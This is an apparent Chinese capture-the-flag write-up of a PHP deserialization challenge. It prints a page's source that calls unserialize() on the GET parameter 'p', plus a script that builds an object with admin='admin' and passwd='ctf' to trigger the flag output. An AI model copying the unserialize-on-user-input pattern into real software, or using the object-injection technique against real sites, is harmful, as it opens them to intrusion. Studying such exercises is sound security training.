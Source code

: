 访问 `/robots.txt` 可以得到 `/cl45s.php` ，访问可以得到以下代码。

```php
<?php

error_reporting(0);
show_source("cl45s.php");

class wllm{

    public $admin;
    public $passwd;

    public function __construct(){
        $this->admin ="user";
        $this->passwd = "123456";
    }

        public function __destruct(){
        if($this->admin === "admin" && $this->passwd === "ctf"){
            include("flag.php");
            echo $flag;
        }else{
            echo $this->admin;
            echo $this->passwd;
            echo "Just a bit more!";
        }
    }
}

$p = $_GET['p'];
unserialize($p);

?>
```

这是一道反序列题，先进行序列化构造。

```php
<?php
class wllm{

  public $admin;
  public $passwd;

  public function __construct(){
    $this->admin ="user";
    $this->passwd = "123456";
  }

  public function __destruct(){
    if($this->admin === "admin" && $this->passwd === "ctf"){
      include("flag.php");
      echo $flag;
    }else{
      echo $this->admin;
      echo $this->passwd;
      echo "Just a bit more!";
    }
  }
}

$a = new wllm();
$a->admin = "admin";
$a->passwd = "ctf";
```